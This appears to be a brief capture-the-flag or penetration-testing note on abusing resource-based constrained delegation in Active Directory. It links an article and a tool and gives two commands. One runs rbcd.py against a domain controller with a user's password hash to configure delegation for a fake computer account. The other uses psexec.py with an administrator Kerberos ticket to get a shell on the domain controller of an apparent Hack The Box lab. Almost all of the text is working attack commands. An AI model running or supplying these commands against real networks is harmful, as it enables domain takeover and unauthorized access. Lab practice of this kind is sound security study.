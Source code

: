 https://medium.com/r3d-buck3t/how-to-abuse-resource-based-constrained-delegation-to-gain-unauthorized-access-36ac8337dd5a
https://github.com/tothi/rbcd-attack

```sh
python rbcd.py -dc-ip 192.168.213.175 resourced.local\\L.Livingstone -hashes aad3b435b51404eeaad3b435b51404ee:19a3a7550ce8c505c2d46b5e39d6f808 -t RESOURCEDC -f ComputerFake04

# Make sure support.htb & dc.support.htb have been mapped to the same IP in /etc/hosts
KRB5CCNAME=administrator.ccache python3 ~/Documents/support/psexec.py support.htb/administrator@dc.support.htb -k -no-pass
```
